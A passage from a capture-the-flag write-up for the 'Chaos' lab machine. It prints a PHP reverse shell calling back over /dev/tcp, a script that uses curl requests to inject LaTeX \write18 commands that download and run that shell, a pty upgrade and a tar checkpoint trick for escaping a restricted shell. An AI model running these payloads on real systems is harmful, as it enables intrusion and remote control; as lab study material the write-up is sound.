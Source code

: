 It works! Now I just need a way to get a proper shell!

I had the following idea: on two different requests I could upload a reverse shell and then execute it (listening on my machine with netcat).

The shell I uploaded as ``rev.php`` was:

```php
<?php exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.13.211/1234 0>&1'");
```

In order to automate everything (I know, a bit lazy) I wrote a simple bash script that made my life so much easier:

```sh
gnome-terminal -e "nc -lnvp 1234"
gnome-terminal -e "python -m SimpleHTTPServer 8001"

curl -i -s -k -X 'POST' --data 'content=\write18{wget 10.10.13.211:8001/rev.php}&template=test1' http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php

curl -i -s -k -X 'POST' --data 'content=\write18{php rev.php}&template=test1' http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php
```

Running that resulted in a shell!

*Reverse shell gained*

![Img](/assets/posts_details/Chaos/images/rev-shell.png "Img")

### Getting user

It took me a while to realise that I already had the credentials for ``ayush``, so I just needed to upgrade my shell to a pty shell in order to run ``su ayush`` (with ``jiujitsu`` as password). I used python to accomplish that:

```py
python -c "import pty; pty.spawn('/bin/bash')"
```

However, after getting to be ayush I found out that I was in a restricted shell, in ``rbash`` to be precise. After a lot of googling I came across the following workaround:

```console
tar cf archive.tar * --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

This command allowed me to get out of the shell. However, once out I found that the $PATH variable wasn't properly configured. Thus, in order to avoid having to write ``/bin/ls`` instead of just ``ls`` I modified it:
